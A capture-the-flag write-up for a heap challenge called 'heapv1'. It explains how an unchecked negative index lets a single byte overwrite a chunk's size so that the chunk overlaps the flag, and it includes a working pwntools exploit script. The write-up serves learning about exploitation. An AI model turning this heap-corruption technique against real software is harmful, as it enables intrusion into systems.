 # heapv1

The challenge is heap related and allows us to generate a chunk of custom size and to write the contents of the chunk. It also allows us multiple chances to allocate chunks and compares if the content of the chunk is the flag. We can modify a character inside a chunk.

The bug here is that the index is not checked and we can write outside the chunk. We simply overwrite the size of the current chunk to a large value such as `0x90`. Since, we overwrote the size to a large value, it overlaps the flag chunk and when we allocate a chunk of size `0x90 - 0x10`(0x10 is heap metatdata size for a chunk), we get the flag inside the chunk. The program errors as it tries to free this corrupted chunk but the flag is already printed.

```python
from pwn import *
context.arch = "amd64"

def send_chunk(size, data):
	io.sendlineafter(b": ", size)
	io.sendlineafter(b": ", data)

io = process("./chal")
# io = remote("amt.rs", 31176)

if args.GDB:
	gdbscript="""
	b main
	"""
	gdb.attach(io, gdbscript=gdbscript)


send_chunk(b"64", b"A"*64) # initial chunk
send_chunk(b"64", b"A"*64) # ptr chunk

# change char
io.sendlineafter(b"index: ", b"-8")
io.sendlineafter(b"character: ", p8(0x90))

send_chunk(b"128", b"A"*128)

io.interactive()
```
